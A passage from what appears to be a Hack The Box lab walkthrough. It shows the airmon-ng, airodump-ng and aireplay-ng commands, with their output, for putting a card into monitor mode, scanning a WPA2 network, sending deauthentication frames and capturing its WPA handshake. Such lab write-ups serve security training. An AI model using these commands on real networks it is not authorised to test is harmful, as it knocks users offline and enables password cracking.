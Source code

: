```shell
          Power Management:on

lo        no wireless extensions.

eth0      no wireless extensions.

```

We put the wlan0 interface into monitor mode by running:

```shell
airmon-ng start wlan0

```

Next, we launch a scan using airodump-ng to identify available Wi-Fi networks and save the output to a file:

```shell
airodump-ng wlan0mon -c 1 -w HTB

 CH  1 ][ Elapsed: 48 s ][ 2025-01-19 22:35 ]

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 52:CD:8C:79:AD:87  -28 100      475       90    0   1   54   WPA2 TKIP   PSK  HTB-Wireless

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 52:CD:8C:79:AD:87  02:00:00:00:01:00  -29   11 -11      0       78  EAPOL  HTB-Wireless

```

To force clients to disconnect and reconnect, triggering the handshake capture, we use aireplay-ng.

```shell
aireplay-ng --deauth 5 -a 52:CD:8C:79:AD:87 wlan0mon

22:35:19  Waiting for beacon frame (BSSID: 52:CD:8C:79:AD:87) on channel 1
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
22:35:19  Sending DeAuth (code 7) to broadcast -- BSSID: [52:CD:8C:79:AD:87]
22:35:20  Sending DeAuth (code 7) to broadcast -- BSSID: [52:CD:8C:79:AD:87]
22:35:20  Sending DeAuth (code 7) to broadcast -- BSSID: [52:CD:8C:79:AD:87]
22:35:21  Sending DeAuth (code 7) to broadcast -- BSSID: [52:CD:8C:79:AD:87]
22:35:21  Sending DeAuth (code 7) to broadcast -- BSSID: [52:CD:8C:79:AD:87]

```

We then take a look for a message in the `airodump-ng` terminal indicating a handshake has been captured. The file (e.g., HTB-01.cap) now contains the captured handshake.

```shell
airodump-ng wlan0mon -c 1 -w HTB

 CH  1 ][ Elapsed: 48 s ][ 2025-01-19 22:35 ][ WPA handshake: 52:CD:8C:79:AD:87

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 52:CD:8C:79:AD:87  -28 100      475       90    0   1   54   WPA2 TKIP   PSK  HTB-Wireless

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 52:CD:8C:79:AD:87  02:00:00:00:01:00  -29   11 -11      0       78  EAPOL  HTB-Wireless

```
